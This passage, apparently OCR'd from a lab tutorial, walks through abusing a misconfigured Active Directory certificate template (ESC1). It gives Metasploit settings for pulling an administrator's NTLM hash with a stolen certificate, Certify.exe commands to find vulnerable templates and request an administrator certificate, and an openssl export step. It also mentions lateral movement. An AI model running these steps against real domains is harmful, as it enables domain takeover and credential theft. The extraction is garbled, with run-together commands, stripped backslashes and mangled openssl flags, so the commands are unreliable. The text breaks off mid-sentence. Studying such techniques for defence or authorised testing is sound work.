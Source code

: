 Load the kerberos Module

use auxiliary/admin/kerberos/get\_ticketset rhosts 192.168.1.48set domain ignite.localset action GET\_HASHset username administratorset cert\_file /root/.msf4/loot/20250108132859\_default\_192.168.1.48\_windows.ad.cs\_493919.pfxrunUses NTLM hash authentication to move laterally with your favourite techniques and tools.

\paragraph{\textbf{Method 3 : Certipy.exe}}

\subparagraph{\textbf{Step 1: Vulnerable Certificate Template Existence}}

When logged in with any user belonging to the \textbf{Domain Users} group, such as the \textbf{aarti} user in this case, you can use your preferred tools to confirm the presence of a vulnerable template.  In this Case to do this, run the following command using \textbf{Certify.exe} — a Windows tool that helps enumerate and exploit AD CS vulnerabilities. The command listed below will display all certificate templates and flag any misconfigurations.

Run the command

certify.exe find /vulnerable /currentuserYou can also find for ENROLLEE\_SUPPLIES\_SUBJECT flag little down which confirms your template vulnerable to the attack.

\subparagraph{\textbf{Step 2: Request a Certificate as Administrator}}

Once we identify a vulnerable template, request a certificate for Administrator.

Fire up the command as

certify.exe request /ca:DCI.ignite.localignite-DC1-CA /template:Custom\_ESC1 /altname:ignite.localadministratorRequests a certificate and saves it as a .pfx file (e.g., cert.pfx). You can use tools of your choice or same certify.exe tool to save the requested certificate here we move with the tool openssl to export the certificate

Launch the command as

.openssl pkcs12 -\textbf{in} cert.pem -keyex -csp "Microsoft Enhanced Cryptographicprovider v1.0" -Export -out c:Userspubliccert.pfxAlthough we have successfully generated the authentication certificate, we are unable to access the C\$ share when attempting to list it via SMB by using the command:

